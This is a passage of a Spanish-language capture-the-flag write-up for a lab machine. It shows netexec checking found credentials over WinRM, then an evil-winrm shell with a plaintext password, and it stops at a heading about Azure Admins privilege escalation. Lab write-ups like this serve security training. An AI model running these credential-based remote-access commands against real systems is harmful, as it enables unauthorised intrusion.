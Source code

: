 Guardaremos las nuevas credenciales en "credentials.txt"

```bash
catnp credentials.txt
```

<figure><img src="../../../.gitbook/assets/972_vmware_D9PoVzvH1Z.png" alt=""><figcaption></figcaption></figure>

## Shell Over WinRM

Probaremos con **netexec** de probar con el usuario "mhope" y la contraseña encontrada de ver si tiene acceso al WinRM. Comprobamos que nos reporta como **Pwn3d**. Por lo tanto, nos indica que efectivamente podemos acceder al WinRM con dichas credenciales.

```bash
netexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/973_vmware_lHc4afnaIh.png" alt=""><figcaption></figcaption></figure>

Probaremos de acceder con **evil-winrm** y las credenciales que disponemos y comprobamos del acceso y de la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/974_vmware_elymkBsmmQ.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing Azure Admins Group - Obtaining the administrator's password
